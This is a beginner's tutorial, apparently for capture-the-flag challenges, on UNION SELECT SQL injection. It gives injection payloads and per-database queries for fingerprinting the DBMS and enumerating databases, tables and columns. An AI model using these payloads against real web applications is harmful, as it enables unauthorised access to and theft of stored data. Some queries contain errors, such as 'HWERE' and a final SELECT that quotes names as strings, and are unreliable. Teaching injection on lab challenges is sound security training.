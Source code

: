 # Beginner's SQL Injection Guide
# UNION SELECT Injection
For most beginner SQL injection challenges, we are either dealing with SQL injection login bypass or in-band union select SQL injection. This guide will walk throught he process of working through in-band union select SQL injection attacks, where the goal is to obtain data from tables in the SQL database.
## 1 Identify Injection Point
The first step is to identify the injection point for SQL injection. For beginner challenges, the injection points are usually in a user submission field on a webpage or a URL parameter in the address bar. A common way to test if an injection point is valid is to send input in the form of a single quote ( ' ) or double quote ( " ). If the system returns an error message, that is a good indicator of a SQL injection point.
## 2 Determine Number of Columns for UNION SELECT
The second step is to determine how many columns the original SQL statement returned in a UNION SELECT statement. Observing the information returned by the web app can give us a good indicator of how many columns we should include. When testing for the number of columns, we should use null values to count the number of columns. For example:
```
' UNION SELECT null,null,null -- 
```
The above would test the system for 3 columns in the original statement.
## 3 Identify the DBMS used by the Web App
The third step is to determine the DBMS (the 'flavor' of SQL being used) by the web app. E.g., MySQL, MSSSQL, SQLite, etc. Some challenges will tell you the type of SQL system being used, but if there are no indications, we can use a few different functions to figure out what DBMS is being used. 
```
version()
```
This will ID MySQL, MariaDB or PostgreSQL
```
@@version
```
This will ID MSSQL or MySQL
```
sysdate FROM dual
```
This will ID Oracle
```
sqlite_version()
```
This will ID SQLite
## 4 Determine the Database names in the System (OPTIONAL)
Although we often cannot access databases aside from the one that the web app uses, it's useful for enumeration purposes, and we sometimes need to know the name of the current database to enumerate its tables.
```
SELECT schema_name FROM information_schema.schemata
```
This works for both MySQL and MariaDB
```
SELECT datname FROM pg_database
```
This works for PostgresSQL
```
SELECT name from sys.databases
```
This works for SQL Server
```
SELECT username FROM all_users
```
This works for Oracle
```
# SQLite does not have multiple databases
```
This works for SQLite
## 5 Determine the name of the Current Database
We sometimes need to know the name of the current database to obtain table names.
```
SELECT database()
```
This works for MySQL and MariaDB
```
SELECT current_database()
```
This works for PostgreSQL
```
SELECT db_name()
```
This works for SQL Server
```
SELECT ora_database_name FROM dual
```
This works for Oracle
```
PRAGMA database_list
```
This works for SQLite
## 6 Determine the Table names in the Database
In order to figure out which tables have the juicy data we're looking for, we need to know the names of all the tables in the database
```
SELECT table_name FROM information_schema.tables WHERE table_schema = database()
```
This works for MySQL and MariaDB
```
SELECT table_name FROM information_schema.tables WHERE table_schema = 'public'
```
This works for PostgreSQL
```
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE'
```
This works for SQL Server
```
SELECT table_name FROM all_tables
```
This works for Oracle
```
SELECT name FROM sqlite_master HWERE type = 'table'
```
This works for SQLite

## 7 Determine the Column names in the Tables
Once we've identified tables that we want to look at, we need to figure out which column names exist in those tables.
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name' AND table_schema = DATABASE()
```
This works for MySQL and MariaDB
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name' AND table_schema = 'public'
```
This works for PosgreSQL
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name'; or SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('your_table_name')
```
This works for SQL Server
```
SELECT column_name FROM all_tab_columns WHERE table_name = 'YOUR_TABLE_NAME'
```
This works Oracle
```
PRAGMA table_info('your_table_name')
```
This works for SQLite

## 8 Output Column Contents from Tables
```
SELECT 'column_name' FROM 'table_name'
```
